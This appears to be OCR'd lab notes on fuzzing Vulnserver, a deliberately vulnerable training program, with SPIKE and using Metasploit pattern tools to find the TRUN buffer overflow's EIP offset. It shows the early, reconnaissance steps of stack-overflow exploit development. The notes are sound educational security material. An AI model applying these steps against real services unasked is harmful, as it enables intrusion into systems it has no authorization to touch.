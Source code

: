 # first used a spike script to fuzz the application. shown below

s_readline();
s_string("TRUN ");
s_string_variable("FUZZ");

once the program crashes, follow the stack pointer in the address/hex dump to the beginning
where the payload starts which is address:


0x0407EF60 


then go to the end of the payload which is address:

0x0407FB00

Then finally subtract the end number from the beggining and you get:

2976



# used this to create a starting payload for vulnserver

msf-pattern_create -l 2976




# Pass the EIP in to msf-pattern_offset to get the correct offset for the buffer

386F4337 EIP (instruction pointer)



# Command used

msf-pattern_offset -q 386F4337


# Might need to specify the length like shown

msf-pattern_offset -l 2976 -q 386F4337


both commands show offset is at 2003


### it is good practice to maintain the same total length (2976) that we got the program to crash from originally using spike and just modify whats inside, rather than changing the length ### 

